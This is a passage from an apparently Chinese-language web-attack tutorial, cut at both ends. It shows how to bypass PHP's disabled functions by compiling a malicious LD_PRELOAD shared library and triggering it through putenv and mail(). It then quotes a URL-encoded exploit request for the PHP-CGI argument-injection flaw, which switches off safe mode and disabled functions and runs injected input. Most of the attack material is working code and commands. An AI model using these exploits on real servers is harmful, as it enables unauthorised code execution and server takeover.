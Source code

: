 当这个共享库中的 `geteuid` 被调用时，尝试加载 `payload()` 函数，执行命令。这个测试函数写的很简单，实际应用时可相应调整完善。在攻击机上（注意编译平台应和靶机平台相近，至少不能一个是 32 位一个是 64 位）把它编译为一个位置信息无关的动态共享库：

```
gcc -c -fPIC hack.c -o hack
gcc -shared hack -o hack.so
```

### 利用

将恶意的.so文件上传到服务器

执行如下代码,即可载入恶意命令

```php
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("[email protected]","","","","");
?>
```

### 相关文章

https://www.anquanke.com/post/id/175403

https://www.tr0y.wang/2018/04/18/PHPDisalbedfunc/index.html

[https://www.k0rz3n.com/2019/02/12/PHP%20%E4%B8%AD%E5%8F%AF%E4%BB%A5%E5%88%A9%E7%94%A8%E7%9A%84%E5%8D%B1%E9%99%A9%E7%9A%84%E5%87%BD%E6%95%B0/#8-mail-%E7%AC%AC%E4%BA%94%E4%B8%AA%E5%8F%82%E6%95%B0-excrt-cmd](https://www.k0rz3n.com/2019/02/12/PHP 中可以利用的危险的函数/#8-mail-第五个参数-excrt-cmd)

https://www.freebuf.com/articles/web/169156.html

## apache+php cgi mod攻击

### 原理

php作为cgi模式运行的时候，接受-s  -d -c 这样的参数，我们看看这些参数的功能

```html
-s Output HTML syntax highlighted source -d foo[=bar] Define INI entry foo with value bar
```

然后再看看攻击代码片段

```php
char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F" \ "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64" \ "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73" \ "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E" \ "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63" \ "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62" \ "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74" \ "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68" \ "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F" \ "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63" \ "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73" \ "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n" \
```
